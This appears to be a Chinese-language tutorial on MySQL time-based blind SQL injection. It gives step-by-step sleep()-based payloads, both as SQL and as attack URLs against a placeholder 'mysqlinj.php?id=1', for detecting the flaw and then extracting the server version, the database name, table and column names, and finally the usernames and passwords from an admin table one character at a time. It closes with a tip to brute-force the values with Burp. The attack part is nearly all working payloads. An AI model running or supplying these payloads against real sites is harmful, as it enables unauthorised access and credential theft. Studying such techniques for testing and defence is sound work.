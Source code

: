 

延时注入属于盲注入的一种，这种注入通过mysql里面的sleep()函数,这个函数的意思是延时执行多少秒。

sleep通常与 if一起使用

```sql
select if('root'='root',sleep(3),0) 
```

如果 字符串root等于root 数据库延时3秒 否则输出0

延时方法是先获取数据的长度

```sql
select if(LENGTH(version())=6,sleep(3),0)
```

再查询数据，这就是我们常用的一些字符 把他们转为ASCII码方便进行对比。

```
abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_. 
```

字符串截取长度：substring()

```sql
select if (substring(select version(),1,1),sleep(5),0)
select substring(version(),1,1)
```

字符转ascii码：ascii() 

```sql
select if (ascii(substring(version(),1,1))=54,sleep(5),0)
```

## 1、判断注入

and 1=1
and 1=2

and sleep(5)#
and sleep(5)--
and sleep(5) 

这种方法判断注入，如果存在注入的情况下 页面是延时5秒 返回页面。

## 2、获取mysql版本

先判断mysql的版本长度 ，当and if(LENGTH(version())=x,sleepx(3),0) 当长度到6的时候，页面延时3秒返回。

```http
http://target_sys.com/mysqlinj.php?id=1 and if(LENGTH(version())=6,sleep(3),0)
```

当知道长度了 就可以用查询数据。

查询数据的语句为  5 的 ascii 为53 延时5秒

```sql
select if(ascii(substring((select version()),1,1))=53,sleep(5),0)
select if(ascii(substring((select version()),2,1))=46,sleep(5),0)
select if(ascii(substring((select version()),3,1))=53,sleep(5),0)
select if(ascii(substring((select version()),4,1))=46,sleep(5),0)
select if(ascii(substring((select version()),5,1))=52,sleep(5),0)
select if(ascii(substring((select version()),6,1))=54,sleep(5),0)
```

以上是mysql里面的用语句判断1到六每个字符的长度分别是 53  46 53 46 52 54 ascii转成字符就是 5.5.46

放在网站上的测试语句就是 第一个数组ascii码53 转换 字符 就是 5 

```http
http://target_sys.com/mysqlinj.php?id=1 and if(ascii(substring((select version()),1,1))=53,sleep(5),0)
```

## 3、获取库名

获取库名也是同样的语句只是把查询的内容改变一个 查询库 select database() -> target_sys

在延时注入里，语句是这样的 长度为10

```http
http://target_sys.com/mysqlinj.php?id=1 and if(LENGTH(database())=10,sleep(3),0)
```

长度已经确认，查询库名。第一个字符的ascii为116 转码字符 t 如此类推到第十。

```sql
select if(ascii(substring((select database()),1,1))=116,sleep(5),0)
```

测试网站的语句 为 延时5秒 返回页面

```http
http://target_sys.com/mysqlinj.php?id=1 and if(ascii(substring((select database()),1,1))=116,sleep(5),0)
```

## 4、获取表

查询所有表的长度 长度为30

```sql
select if(LENGTH((select(group_concat(TABLE_NAME)) from information_schema.TABLES where TABLE_SCHEMA=database()))=30,sleep(5),0)
```

测试网站语句

```http
http://target_sys.com/mysqlinj.php?id=1 and if(LENGTH((select(group_concat(TABLE_NAME)) from information_schema.TABLES where TABLE_SCHEMA=database()))=30,sleep(5),0)
```

查询所有表 第一个字符为97 ascii为a 查询到40

```sql
select if(ascii(SUBSTRING((select group_concat(TABLE_NAME)from information_schema.TABLES where TABLE_SCHEMA=database()),1,1))=97,sleep(5),0)
```

网址语句

```http
http://target_sys.com/mysqlinj.php?id=1 and if(ascii(SUBSTRING((select group_concat(TABLE_NAME)from information_schema.TABLES where TABLE_SCHEMA=database()),1,1))=97,sleep(5),0)
```

## 5、查询字段

查询admin表的字段 把admin转换成十六进制 0x61646d696e 带入语句

首先确认长度 

```sql
select if(LENGTH((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e))=20,sleep(5),0)
```

测试语句

```http
http://target_sys.com/mysqlinj.php?id=1 and if(LENGTH((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e))=20,sleep(5),0)
```

查询数据 

```sql
select if(ascii(SUBSTRING((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e),1,1))=105,sleep(5),0)
```

测试语句 直接查询到20个字符长度

```http
http://target_sys.com/mysqlinj.php?id=1 and if(ascii(SUBSTRING((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e),1,1))=105,sleep(5),0)
```

## 6、查询内容

确定数据长度 38 

```sql
select if(LENGTH((select GROUP_CONCAT(username,0x3a,password)from admin))=38,sleep(5),5)
```

网址测试语句

```http
http://target_sys.com/mysqlinj.php?id=1 and if(LENGTH((select GROUP_CONCAT(username,0x3a,password)from admin))=38,sleep(5),5)
```

查询数据内容 查询第一个

```sql
select if(ascii(substring((select GROUP_CONCAT(username,0x3a,password)from admin),1,1))=105,sleep(5),5)
```

网址语句 测试第一个字符为ascii为97 字符为a 

```http
http://target_sys.com/mysqlinj.php?id=1 and if(ascii(substring((select GROUP_CONCAT(username,0x3a,password)from admin),1,1))=97,sleep(5),0)
```

原理大致上就是这样 先用语句测试数据长度,再用长度查询内容。

网站测试时，可以通过burp爆出对应的ascii值，然后再查询内容并组合得到想要的数据